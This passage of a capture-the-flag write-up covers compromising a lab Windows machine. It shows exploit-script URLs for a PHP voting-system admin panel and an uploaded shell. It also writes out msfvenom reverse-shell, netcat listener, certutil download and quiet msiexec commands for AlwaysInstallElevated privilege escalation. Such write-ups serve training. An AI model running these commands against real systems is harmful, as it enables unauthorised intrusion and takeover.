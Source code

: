 ```
INDEX_PAGE = f"http://{IP}/admin/index.php"
LOGIN_URL = f"http://{IP}/admin/login.php"
VOTE_URL = f"http://{IP}/admin/voters_add.php"
CALL_SHELL = f"http://{IP}/images/shell.php"
[STRIPPED]
```
- And of course you need to put your ip the website target. Also note that the payload is indeed encoded.
- It works and we have a reverse shell as phoebe  
![image](https://user-images.githubusercontent.com/96747355/179381782-7ac85eb8-5967-4908-aa28-26ea6e6552a0.png)  
- We can grab the user flag  
![image](https://user-images.githubusercontent.com/96747355/179381861-5cc5fcc4-aeb0-4330-981b-cace1e061e33.png)  

## Privesc

- We can run winpeas

![always installed](../.res/2022-09-03-20-16-31.png)  

- Let's try this. [Here](https://csbygb.gitbook.io/pentips/windows/post-compromise-attack/alwaysinstallelevated#other-way) is a way to exploit the AlwaysInstalledElevated
- `msfvenom -p windows/shell_reverse_tcp lhost=10.10.14.2 lport=5555 -f msi > gabrielle.msi`
- We set our listener `rlwrap nc -lvp 5555`
- We serve it with pythom
- We get it on the target `certutil.exe -urlcache -f http://10.10.14.2/gabrielle.msi gabrielle.msi`
- `msiexec /i C:\xampp\htdocs\omrs\images\gabrielle.msi /quiet /qn /norestart`
- We are root!!  
![root shell](../.res/2022-09-03-20-25-42.png)